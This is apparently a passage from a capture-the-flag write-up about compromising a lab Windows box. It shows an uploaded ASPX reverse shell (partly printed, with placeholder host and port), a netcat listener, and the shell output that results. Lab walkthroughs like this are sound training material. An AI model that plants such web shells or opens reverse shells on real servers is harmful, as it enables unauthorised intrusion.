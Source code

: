 Turns our we have the upload privileges.

## Exploitation

---

ASPX RevShell by **borjmz** --> [link]('https://github.com/borjmz/aspx-reverse-shell' 'github')

```c#
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "127.0.0.1"; //CHANGE THIS
            int port = 1234; ////CHANGE THIS
                
        CallbackShell(host, port);
    }
...
```

SMB share contents:

```txt
smb: \> dir
  .                                   D        0  Wed Nov 11 15:19:34 2020
  ..                                  D        0  Wed Nov 11 15:19:34 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  shell.aspx                          A    15969  Wed Nov 11 15:14:02 2020

                7735807 blocks of size 4096. 5137604 blocks available
smb: \>
```

**Getting Accress to the Machine:**

1. http://ip-addr:49663/nt4wrksv/shell.aspx

2. nc -lvnp 6666

```txt
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 10.10.27.244.
Ncat: Connection from 10.10.27.244:49908.
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```
